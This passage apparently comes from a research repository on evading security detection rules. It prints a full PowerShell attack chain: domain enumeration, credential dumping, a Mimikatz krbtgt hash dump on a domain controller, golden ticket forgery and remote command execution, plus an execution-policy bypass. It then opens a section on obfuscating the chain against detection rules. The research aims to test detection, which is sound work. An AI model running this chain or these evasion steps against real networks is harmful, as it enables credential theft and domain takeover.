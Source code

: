 - [PowerView](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
- CredDump.ps1
- Invoke-WinRMsession.ps1
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Invoke-Mimikatz](https://github.com/g4uss47/Invoke-Mimikatz)

For ease of use and better reproducibility, their usage was compiled into one additional script:

```ps
# (1) Enumerate the domain controller to receive the domain name and the domain controller hostname
. .\powerview.ps1; Get-NetDomainController

# (2) Dump the domain admin's credentials 
. .\creddump.ps1; wmidump

# (3) Use the dumped credentials to upload mimikatz to the domain controller and dump the Kerberos credentials 
. .\invoke-winrmsession.ps1;
$session = invoke-winrmsession -Username [USERNAME] -Password [PASSWORD] -IPAddress [IP];
Copy-Item m.exe -Destination "C:\Windows\System32\" -ToSession $session -force;
Invoke-Command -Session $session -scriptblock {C:\Windows\System32\m.exe privilege::debug "lsadump::lsa /inject /name:krbtgt" exit} | out-string

# (4) Create the golden ticket
klist purge;
. .\Invoke-Mimikatz.ps1;
invoke-mimikatz -command '"kerberos::golden /domain:[DOMAIN] /sid:[SID]  /rc4:[HASH] /user:Administrator /ptt"';
klist;

# (5) Use the golden ticket to execute commands on another workstation
invoke-command -ComputerName [NAME] -ScriptBlock { ipconfig /all };
```

Lastly, the execution of scripts had to be allowed, using the following command:

```ps
Set-ExecutionPolicy -ExecutionPolicy Bypass
```

## Obfuscation Techniques
The baseline attack offered several possibilities for obfuscation, which we devided into five techniques.
In the following these obfuscation techniques will be discussed sorted by the amount of work involved when applying them in ascending order.
For each technique, a short example will be given, but we do not provide all performed obfuscations due to ethical concerns.
It should be noted that the two command-line techniques were adapted from [previous work done by Uetz et al.](https://www.usenix.org/conference/usenixsecurity24/presentation/uetz).

### File Renaming
The first technique is really simple and might also be performed without malicious intent, as all that is done is changing some filenames.
Certain scripts' filenames are detected in the "context information" of events by some rules, such as "*Malicious PowerShell Scripts - PoshModule*":
